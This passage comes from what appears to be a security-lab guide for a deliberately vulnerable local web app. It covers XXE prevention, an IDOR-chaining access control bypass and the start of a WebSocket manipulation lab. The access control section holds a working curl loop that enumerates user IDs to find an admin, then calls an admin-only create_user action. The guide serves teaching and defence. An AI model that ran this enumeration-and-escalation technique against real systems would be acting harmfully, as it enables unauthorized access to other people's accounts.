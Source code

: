 ### Advanced Prevention Measures
1. Implement XML parsing with secure configurations by default
2. Use XML schema validation with strict whitelisting
3. Implement network-level protections against XXE
4. Use application-level firewalls with XML inspection
5. Implement advanced monitoring for XXE attack patterns

---

## 7. Complex Access Control Bypass

### Vulnerability Description
Advanced access control bypass techniques including IDOR chaining, privilege escalation through parameter pollution, and multi-step authorization bypass.

### Advanced Solution Steps

#### Step 1: IDOR Chain Exploitation
**Objective:** Chain multiple IDOR vulnerabilities for privilege escalation

**Using curl for IDOR chaining:**
```bash
# Step 1: Enumerate user IDs
for id in {1..100}; do
  response=$(curl -s "http://localhost:5000/api/vuln/access-control-advanced?user_id=$id")
  if [[ $response == *"admin"* ]]; then
    echo "Admin user found: ID $id"
    admin_id=$id
    break
  fi
done

# Step 2: Use discovered admin ID to access sensitive functions
curl "http://localhost:5000/api/vuln/access-control-advanced/admin?user_id=$admin_id&action=create_user"
```

### Advanced Prevention Measures
1. Implement sophisticated authorization matrices
2. Use attribute-based access control (ABAC)
3. Implement real-time access pattern analysis
4. Use zero-trust architecture principles
5. Implement advanced session management with context awareness

---

## 7. WebSocket Message Manipulation Lab

### Vulnerability Description
This lab demonstrates real-time WebSocket communication vulnerabilities where attackers can intercept, modify, and inject malicious messages to escalate privileges or execute unauthorized commands.
